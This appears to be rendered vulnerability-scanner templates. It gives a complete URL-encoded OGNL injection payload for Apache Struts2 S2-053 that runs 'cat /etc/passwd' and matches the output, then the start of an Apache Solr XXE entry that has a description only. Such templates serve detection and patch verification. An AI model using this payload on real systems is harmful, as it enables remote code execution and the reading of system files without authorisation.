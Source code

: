 # Apache Struts2 S2-053 - Remote Code Execution

## Description

- Apache Struts 2.0.0 through 2.3.33 and 2.5 through 2.5.10.1 uses an unintentional expression in a Freemarker tag instead of string literals, which makes it susceptible to remote code execution attacks.
- severity - critical
- tags - cve,cve2017,apache,rce,struts

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/?name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%27cat%20/etc/passwd%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27/c%27%2C%23cmd%7D%3A%7B%27/bin/bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Apache Solr \<= 7.1 - XML Entity Injection

## Description

- Apache Solr with Apache Lucene before 7.1 is susceptible to remote code execution by exploiting XXE in conjunction with use of a Config API add-listener command to reach the RunExecutableListener class. Elasticsearch, although it uses Lucene, is NOT vulnerable to this. Note that the XML external entity expansion vulnerability occurs in the XML Query Parser which is available, by default, for any query request with parameters deftype=xmlparser and can be exploited to upload malicious data to the /upload request handler or as Blind XXE using ftp wrapper in order to read arbitrary local files from the Solr server. Note also that the second vulnerability relates to remote code execution using the RunExecutableListener available on all affected versions of Solr.
- severity - critical
- tags - oast,xxe,vulhub,cve,cve2017,solr,apache
